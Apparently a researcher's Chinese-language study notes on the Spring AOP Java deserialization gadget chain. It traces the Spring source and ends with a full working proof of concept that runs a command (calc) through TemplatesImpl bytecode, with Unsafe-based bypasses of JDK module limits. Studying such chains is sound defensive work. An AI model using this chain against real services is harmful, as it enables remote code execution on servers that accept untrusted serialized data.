










# SpringAOP链
## 依赖
该链依赖于spring-aop和aspectjweaver两个包，在pom.xml文件中导入以下依赖
或者在springboot的spring-boot-starter-aop中自带这两个依赖  
一般都是正常spring项目加个`aspectjweaver`
```xml
<dependency>
  <groupId>org.springframework</groupId>
  <artifactId>spring-aop</artifactId>
  <version>5.3.19</version>
</dependency>
<dependency>
  <groupId>org.aspectj</groupId>
  <artifactId>aspectjweaver</artifactId>
  <version>1.9.8</version>
</dependency>
```
这个链子网上不少变式来着，可以都调调学一学  
## 学习
### 简单思路
AbstractAspectJAdvice#invokeAdviceMethodWithGivenArgs
```java
    protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {
        Object[] actualArgs = args;
        if (this.aspectJAdviceMethod.getParameterCount() == 0) {
            actualArgs = null;
        }

        try {
            ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);
            return this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
        } catch (IllegalArgumentException ex) {
            throw new AopInvocationException("Mismatch on arguments to advice method [" + this.aspectJAdviceMethod + "]; pointcut expression [" + this.pointcut.getPointcutExpression() + "]", ex);
        } catch (InvocationTargetException ex) {
            throw ex.getTargetException();
        }
    }
```
`this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);`很典型了，现在思考怎么走到这里  
这是一个抽象类AbstractAspectJAdvice，找到它的实现，需要继承Serializable接口，我们找到AspectJAroundAdvice  
可看这里  
```java
public Object invoke(MethodInvocation mi) throws Throwable {
    if (!(mi instanceof ProxyMethodInvocation)) {
        throw new IllegalStateException("MethodInvocation is not a Spring ProxyMethodInvocation: " + mi);
    } else {
        ProxyMethodInvocation pmi = (ProxyMethodInvocation)mi;
        ProceedingJoinPoint pjp = this.lazyGetProceedingJoinPoint(pmi);
        JoinPointMatch jpm = this.getJoinPointMatch(pmi);
        return this.invokeAdviceMethod(pjp, jpm, (Object)null, (Throwable)null);
    }
```
`return this.invokeAdviceMethod(pjp, jpm, (Object)null, (Throwable)null);`就可以走到我们上述的调用点了，现在就是如何触发这个invoke方法？  
再思考这个问题前，我们关注一下反射调用等等的参数来源  
 - AspectInstanceFactory：需要实现此接口的类
 - aspectJAdviceMethod：反射修改即可
 - actualArgs：`this.invokeAdviceMethod(pjp, jpm, (Object)null, (Throwable)null)`=>`this.argBinding(jp, jpMatch, returnValue, t)`=>返回的Object作为`actualArgs`
这里注意一下invoke参数下来的走法，要求是`ProxyMethodInvocation`
再看关于如何触发，看`ReflectiveMethodInvocation#proceed`
```java
public class ReflectiveMethodInvocation implements ProxyMethodInvocation, Cloneable
很合适
public Object proceed() throws Throwable {
    if (this.currentInterceptorIndex == this.interceptorsAndDynamicMethodMatchers.size() - 1) {
        return this.invokeJoinpoint();
    } else {
        Object interceptorOrInterceptionAdvice = this.interceptorsAndDynamicMethodMatchers.get(++this.currentInterceptorIndex);
        if (interceptorOrInterceptionAdvice instanceof InterceptorAndDynamicMethodMatcher) {
            InterceptorAndDynamicMethodMatcher dm = (InterceptorAndDynamicMethodMatcher)interceptorOrInterceptionAdvice;
            Class<?> targetClass = this.targetClass != null ? this.targetClass : this.method.getDeclaringClass();
            return dm.methodMatcher.matches(this.method, targetClass, this.arguments) ? dm.interceptor.invoke(this) : this.proceed();
        } else {
            return ((MethodInterceptor)interceptorOrInterceptionAdvice).invoke(this);
        }
    }
}
```
`((MethodInterceptor)interceptorOrInterceptionAdvice).invoke(this)`可见  
而`Object interceptorOrInterceptionAdvice = this.interceptorsAndDynamicMethodMatchers.get(++this.currentInterceptorIndex);`可控  
如何触发proceed？  
最后落到我们的动态代理上了`JdkDynamicAopProxy`  
```java
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        Object oldProxy = null;
        boolean setProxyContext = false;
        TargetSource targetSource = this.advised.targetSource;
        Object target = null;

        Boolean var8;
        try {
            if (this.equalsDefined || !AopUtils.isEqualsMethod(method)) {
                if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
                    Integer var19 = this.hashCode();
                    return var19;
                }

                if (method.getDeclaringClass() == DecoratingProxy.class) {
                    Class var18 = AopProxyUtils.ultimateTargetClass(this.advised);
                    return var18;
                }

                if (!this.advised.opaque && method.getDeclaringClass().isInterface() && method.getDeclaringClass().isAssignableFrom(Advised.class)) {
                    Object var17 = AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
                    return var17;
                }

                if (this.advised.exposeProxy) {
                    oldProxy = AopContext.setCurrentProxy(proxy);
                    setProxyContext = true;
                }

                target = targetSource.getTarget();
                Class<?> targetClass = target != null ? target.getClass() : null;
                List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
                Object retVal;
                if (chain.isEmpty()) {
                    Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
                    retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);
                } else {
                    MethodInvocation invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
                    retVal = invocation.proceed();
                }
```
我们知道在Java 动态代理中，只有接口中声明的方法被代理调用时，才会触发到代理类的invoke方法，找个有方法调用的readObject就可以作为起始点了  
这里会发现`ReflectiveMethodInvocation`并没有实现可序列化的接口，因此理论上无法写进writeObject，但是这里直接new了出来，因此无影响了  

### 构造
 - 构造的话也会看看高版本的SpringAOP可以这么打hh，这里选择sink用TemplateImpl，这里也会熟悉一下高版本如何绕过这个限制
 - 关于springAOP链的`JdkDynamicAopProxy`也是我们高版本维持jackson调用链稳定性的好方法，这里也会展开说明下
 - SpringAOP链的构造虽说有点绕，但还是建议完完整整的学下来
#### JdkDynamicAopProxy=>AspectJAroundAdvice#invoke方法
首先看该类的构造方法参数，需要传入一个AdvisedSupport类  
这里我们要想调用JdkDynamicAopProxy的invoke方法，得把它被代理包裹，执行代理的方法就可以走进invoke，能和其他链子配合的就比如hashcode，equals，toString方法  
但是我们可以看到

所以前两者是不行的，即toString是ok的  
```java
Class<?> jdkDynamicProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> proxyConstructor = jdkDynamicProxyClass.getDeclaredConstructor(AdvisedSupport.class);
proxyConstructor.setAccessible(true);

AdvisedSupport advisedSupport = new AdvisedSupport();
        InvocationHandler handler = (InvocationHandler) proxyConstructor.newInstance(advisedSupport);

Object proxy = Proxy.newProxyInstance(
        Main.class.getClassLoader(),
        new Class[]{Map.class},
        handler
);
proxy.toString();
```
在构造处报错


因此如下即可  
```java
advisedSupport.setTargetSource(new HotSwappableTargetSource("target"));//这里也可以选择其他的TargetSource类，例如SingletonTargetSource
List<Advisor> advisors = new ArrayList<>();
setField(advisedSupport, "advisors", advisors);
```
然后断在了这里  

可见chain的重要性，跟进代码  
```java
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Method method, @Nullable Class<?> targetClass) {
    MethodCacheKey cacheKey = new MethodCacheKey(method);
    List<Object> cached = (List)this.methodCache.get(cacheKey);
    if (cached == null) {
        cached = this.advisorChainFactory.getInterceptorsAndDynamicInterceptionAdvice(this, method, targetClass);
        this.methodCache.put(cacheKey, cached);
    }

    return cached;
}
```
注意到这个参数`private transient Map<MethodCacheKey, List<Object>> methodCache;`无法在序列化的时候构造  
所以会走进这个方法`advisorChainFactory#getInterceptorsAndDynamicInterceptionAdvice`
那就只能找这个接口的实现了`AdvisorChainFactory`  
这里正好只有一个实现类`DefaultAdvisorChainFactory`  
```java
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Advised config, Method method, @Nullable Class<?> targetClass) {
    AdvisorAdapterRegistry registry = GlobalAdvisorAdapterRegistry.getInstance();
    Advisor[] advisors = config.getAdvisors();
    List<Object> interceptorList = new ArrayList(advisors.length);
    Class<?> actualClass = targetClass != null ? targetClass : method.getDeclaringClass();
    Boolean hasIntroductions = null;

    for(Advisor advisor : advisors) {
        if (advisor instanceof PointcutAdvisor) {
            PointcutAdvisor pointcutAdvisor = (PointcutAdvisor)advisor;
            if (config.isPreFiltered() || pointcutAdvisor.getPointcut().getClassFilter().matches(actualClass)) {
                MethodMatcher mm = pointcutAdvisor.getPointcut().getMethodMatcher();
                boolean match;
                if (mm instanceof IntroductionAwareMethodMatcher) {
                    if (hasIntroductions == null) {
                        hasIntroductions = hasMatchingIntroductions(advisors, actualClass);
                    }

                    match = ((IntroductionAwareMethodMatcher)mm).matches(method, actualClass, hasIntroductions);
                } else {
                    match = mm.matches(method, actualClass);
                }

                if (match) {
                    MethodInterceptor[] interceptors = registry.getInterceptors(advisor);
                    if (mm.isRuntime()) {
                        for(MethodInterceptor interceptor : interceptors) {
                            interceptorList.add(new InterceptorAndDynamicMethodMatcher(interceptor, mm));
                        }
                    } else {
                        interceptorList.addAll(Arrays.asList(interceptors));
                    }
                }
            }
        } else if (advisor instanceof IntroductionAdvisor) {
            IntroductionAdvisor ia = (IntroductionAdvisor)advisor;
            if (config.isPreFiltered() || ia.getClassFilter().matches(actualClass)) {
                Interceptor[] interceptors = registry.getInterceptors(advisor);
                interceptorList.addAll(Arrays.asList(interceptors));
            }
        } else {
            Interceptor[] interceptors = registry.getInterceptors(advisor);
            interceptorList.addAll(Arrays.asList(interceptors));
        }
    }

    return interceptorList;
}
```
那自然得再反射控一下值了 
```java
setField(advisedSupport, "advisorChainFactory", new DefaultAdvisorChainFactory());
```
这里先给这个list添个Advisor对象  
```java
AspectJAroundAdvice advice = (AspectJAroundAdvice) allocateInstance(AspectJAroundAdvice.class);
NameMatchMethodPointcutAdvisor advisor = new NameMatchMethodPointcutAdvisor(advice);
advisors.add(advisor);
```
最后返回的是`interceptorList`  
即我们要思考我们的list的对象如何被放进这个list上，再作为chains去放入后续的类的参数中  
关注到比较多的这行代码`Interceptor[] interceptors = registry.getInterceptors(advisor);`  
是被放入的前提  
```java
public final class GlobalAdvisorAdapterRegistry {
    private static AdvisorAdapterRegistry instance = new DefaultAdvisorAdapterRegistry();

    private GlobalAdvisorAdapterRegistry() {
        super();
    }

    public static AdvisorAdapterRegistry getInstance() {
        return instance;
    }

    static void reset() {
        instance = new DefaultAdvisorAdapterRegistry();
    }
}
```
再跟进DefaultAdvisorAdapterRegistry#getInterceptors  

`Advice advice = advisor.getAdvice();`这一行就对应advisor类的传进去的构造参数advice类  
这里发现若想成功通过这个advice类必须同时继承MethodInterceptor接口  
正好，`AspectJAroundAdvice` 完美符合，那到底是哪里有问题呢？
可见  
  
这里的mm需要设置让match为true才可以走进去，即这个method为`toString`，我们应该让他们相同    
```java
NameMatchMethodPointcutAdvisor advisor = new NameMatchMethodPointcutAdvisor(advice);
advisor.setMappedName("toString");
List<Advisor> advisors = new ArrayList<>();
advisors.add(advisor);
```

---
然后成功拿到拿到chains，进一步跟踪
```java
this.interceptorsAndDynamicMethodMatchers = interceptorsAndDynamicMethodMatchers;//chains
...
Object interceptorOrInterceptionAdvice = this.interceptorsAndDynamicMethodMatchers.get(++this.currentInterceptorIndex);  
...
return ((MethodInterceptor)interceptorOrInterceptionAdvice).invoke(this);
```
成功调用上了AspectJAroundAdvice类的invoke方法  

#### advice类应该怎么构造
 - 我们使用的advised类是NameMatchMethodPointcutAdvisor  
注意我们最后方法调用，这里选择无参调用，因此这样即可  
```java
Object templates = createTemplatesImplByUnsafe("calc");
SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);

AspectJAroundAdvice advice = (AspectJAroundAdvice) allocateInstance(AspectJAroundAdvice.class);
setField(advice, "aspectInstanceFactory", factory);
setField(advice, "declaringClass", Templates.class);
setField(advice, "methodName", "getOutputProperties");
setField(advice, "parameterTypes", new Class[0]);
```
比较简单，就不调了  
实际把这两个合在一起走的时候，发现会出现报错  
  
需要AbstractExpressionPointcut的子类为`AspectJExpressionPointcut`设置进去  
然后会再报错  

可以看到问题在这里  
```java
    protected Object[] argBinding(JoinPoint jp, @Nullable JoinPointMatch jpMatch, @Nullable Object returnValue, @Nullable Throwable ex) {
        this.calculateArgumentBindings();
        Object[] adviceInvocationArgs = new Object[this.parameterTypes.length];
        int numBound = 0;
        if (this.joinPointArgumentIndex != -1) {
            adviceInvocationArgs[this.joinPointArgumentIndex] = jp;
            ++numBound;
        } else if (this.joinPointStaticPartArgumentIndex != -1) {
            adviceInvocationArgs[this.joinPointStaticPartArgumentIndex] = jp.getStaticPart();
            ++numBound;
        }

        if (!CollectionUtils.isEmpty(this.argumentBindings)) {
            if (jpMatch != null) {
                PointcutParameter[] parameterBindings = jpMatch.getParameterBindings();

                for(PointcutParameter parameter : parameterBindings) {
                    String name = parameter.getName();
                    Integer index = (Integer)this.argumentBindings.get(name);
                    adviceInvocationArgs[index] = parameter.getBinding();
                    ++numBound;
                }
            }

            if (this.returningName != null) {
                Integer index = (Integer)this.argumentBindings.get(this.returningName);
                adviceInvocationArgs[index] = returnValue;
                ++numBound;
            }

            if (this.throwingName != null) {
                Integer index = (Integer)this.argumentBindings.get(this.throwingName);
                adviceInvocationArgs[index] = ex;
                ++numBound;
            }
        }

        if (numBound != this.parameterTypes.length) {
            throw new IllegalStateException("Required to bind " + this.parameterTypes.length + " arguments, but only bound " + numBound + " (JoinPointMatch " + (jpMatch == null ? "was NOT" : "WAS") + " bound in invocation)");
        } else {
            return adviceInvocationArgs;
        }
    }
```
当然我们这里是调用无参方法，对于这个没有强制要求，只是不要它中断即可  

找到原因了，反射改一下值就行  
```java
setIntField(advice, "joinPointArgumentIndex", -1);
setIntField(advice, "joinPointStaticPartArgumentIndex", -1);
```
然后本地调用就成功了  
当然，关于这条链子我们还有很多问题，并不会止步于此  
### POC
```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.NameMatchMethodPointcutAdvisor;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.aop.target.SingletonTargetSource;
import sun.misc.Unsafe;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.Module;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.ArrayList;
import java.util.List;
import java.util.Map;
import java.util.Vector;

public class Main {

    public static void main(String[] args) throws Exception {
        patchModule(Main.class);


        Object templates = createTemplatesImplByUnsafe("calc");
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);

        AspectJAroundAdvice advice = (AspectJAroundAdvice) allocateInstance(AspectJAroundAdvice.class);
        setField(advice, "aspectInstanceFactory", factory);
        setField(advice, "declaringClass", Templates.class);
        setField(advice, "methodName", "getOutputProperties");
        setField(advice, "parameterTypes", new Class[0]);

        AspectJExpressionPointcut pointcut = (AspectJExpressionPointcut) allocateInstance(AspectJExpressionPointcut.class);
        setField(advice, "pointcut", pointcut);
        setIntField(advice, "joinPointArgumentIndex", -1);
        setIntField(advice, "joinPointStaticPartArgumentIndex", -1);

        NameMatchMethodPointcutAdvisor advisor = new NameMatchMethodPointcutAdvisor(advice);
        advisor.setMappedName("toString");
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        Class<?> jdkDynamicProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> proxyConstructor = jdkDynamicProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTargetSource(new HotSwappableTargetSource("target"));

        setField(advisedSupport, "advisors", advisors);
        setField(advisedSupport, "advisorChainFactory", new DefaultAdvisorChainFactory());

        InvocationHandler handler = (InvocationHandler) proxyConstructor.newInstance(advisedSupport);

        Object proxy = Proxy.newProxyInstance(
                Main.class.getClassLoader(),
                new Class[]{Map.class},
                handler
        );

        EventListenerList listenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();
        Vector edits = (Vector) getField(undoManager, "edits");
        edits.add(proxy);
        setField(listenerList, "listenerList", new Object[]{Class.class, undoManager});


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(listenerList);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    public static Unsafe getUnsafe() {
        try {
            Field f = Unsafe.class.getDeclaredField("theUnsafe");
            f.setAccessible(true);
            return (Unsafe) f.get(null);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static Object allocateInstance(Class<?> clazz) {
        try {
            return getUnsafe().allocateInstance(clazz);
        } catch (InstantiationException e) {
            throw new RuntimeException(e);
        }
    }

    public static void setField(Object obj, String fieldName, Object value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putObject(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void setIntField(Object obj, String fieldName, int value) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            unsafe.putInt(obj, offset, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static Object getField(Object obj, String fieldName) {
        try {
            Field field = null;
            Class<?> clazz = obj.getClass();
            while (clazz != null) {
                try {
                    field = clazz.getDeclaredField(fieldName);
                    break;
                } catch (NoSuchFieldException e) {
                    clazz = clazz.getSuperclass();
                }
            }
            if (field == null) throw new NoSuchFieldException(fieldName);

            Unsafe unsafe = getUnsafe();
            long offset = unsafe.objectFieldOffset(field);
            return unsafe.getObject(obj, offset);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static Object createTemplatesImplByUnsafe(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.makeClass("Evil" + System.nanoTime());
        evilClass.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + cmd + "\");");

        byte[] evilBytes = evilClass.toBytecode();
        CtClass stubClass = pool.makeClass("Stub" + System.nanoTime());
        byte[] stubBytes = stubClass.toBytecode();

        Object templates = allocateInstance(TemplatesImpl.class);

        setField(templates, "_bytecodes", new byte[][]{evilBytes, stubBytes});
        setField(templates, "_name", "Pwnd");
        setIntField(templates, "_transletIndex", 0);

        return templates;
    }

    public static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
//--add-opens=java.base/sun.nio.ch=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=jdk.unsupported/sun.misc=ALL-UNNAMED --add-opens java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.base/java.lang.reflect=ALL-UNNAMED
```
#### 调用栈
```
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:559)
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:587)
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:608)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
	at java.base/jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.base/java.lang.reflect.Method.invoke(Method.java:568)
	at org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethodWithGivenArgs(AbstractAspectJAdvice.java:634)
	at org.springframework.aop.aspectj.AbstractAspectJAdvice.invokeAdviceMethod(AbstractAspectJAdvice.java:624)
	at org.springframework.aop.aspectj.AspectJAroundAdvice.invoke(AspectJAroundAdvice.java:72)
	at org.springframework.aop.framework.ReflectiveMethodInvocation.proceed(ReflectiveMethodInvocation.java:186)
	at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:215)
	at jdk.proxy2/jdk.proxy2.$Proxy2.toString(Unknown Source)
	at java.base/java.lang.String.valueOf(String.java:4222)
	at java.base/java.lang.StringBuilder.append(StringBuilder.java:173)
	at java.base/java.util.AbstractCollection.toString(AbstractCollection.java:457)
	at java.base/java.util.Vector.toString(Vector.java:1083)
	at java.base/java.lang.StringConcatHelper.stringOf(StringConcatHelper.java:453)
	at java.desktop/javax.swing.undo.CompoundEdit.toString(CompoundEdit.java:266)
	at java.desktop/javax.swing.undo.UndoManager.toString(UndoManager.java:695)
	at java.base/java.lang.StringConcatHelper.stringOf(StringConcatHelper.java:453)
